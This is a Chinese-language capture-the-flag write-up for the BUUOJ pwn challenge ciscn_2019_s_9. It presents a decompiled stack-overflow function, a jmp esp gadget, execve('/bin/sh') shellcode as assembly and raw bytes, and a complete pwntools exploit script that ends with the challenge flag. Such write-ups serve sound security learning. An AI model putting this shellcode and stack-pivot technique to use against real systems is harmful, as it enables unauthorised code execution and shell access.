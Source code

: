 # ciscn_2019_s_9

[题目地址](https://buuoj.cn/challenges#ciscn_2019_s_9)

完全不会写汇编。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

啥也没开，好事。main函数内部调用了pwn函数。

```c
int pwn()
{

  char s[24]; // [esp+8h] [ebp-20h] BYREF



  puts("\nHey! ^_^");

  puts("\nIt's nice to meet you");

  puts("\nDo you have anything to tell?");

  puts(">");

  fflush(stdout);

  fgets(s, 0x32, stdin);

  puts("OK bye~");

  fflush(stdout);

  return 1;

}
```

很明显的栈溢出，虽然溢出字节不多，但是我们可以把shellcode存进buffer里，然后想个办法跳转过去就行了，毕竟nx没开。程序内还有个hint函数，佐证了我的思路。

```c
void hint()
{
  __asm { jmp     esp }
}
```

本来打算用pwntools直接生成shellcode，结果发现太长了。我也不会缩短，找个[wp](https://blog.csdn.net/mcmuyanga/article/details/113317412)看看吧。缩短后如下：

```
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
mov al,0xB
int 0x80
```

还有一个我不会但是很重要的点在于，我不知道怎么算buffer存储内容到底距离esp多少。看exp就知道我在说什么了。

```python
from pwn import *

p=remote('node4.buuoj.cn',25537)
context(log_level='debug',arch='i386',os='linux')

jump_esp=0x8048554
shellcode='''
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
mov al,0xB
int 0x80
'''

#hellcode=asm(shellcode)

shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

payload=shellcode.ljust(0x24,b'\x00')+p32(jump_esp) #返回地址填esp，那么程序执行栈还会保留在esp上

#payload+=asm("sub esp,40;call esp")
payload+=b'\x83\xec(\xff\xd4'  #我们接着再往esp里写入这串汇编代码，由于执行栈在这里，便会执行这串代码。代码是为了把esp的值调整到buffer内容（shellcode）的地址。然后call esp执行
p.sendline(payload)
p.interactive()
```

我不知道的地方在于大佬们是怎么算出来esp和buffer内容正好差40的？不行要搞个调试的东西了。

## Flag
- flag{fa7d2c02-e71e-486d-90d9-e0431ba0480a}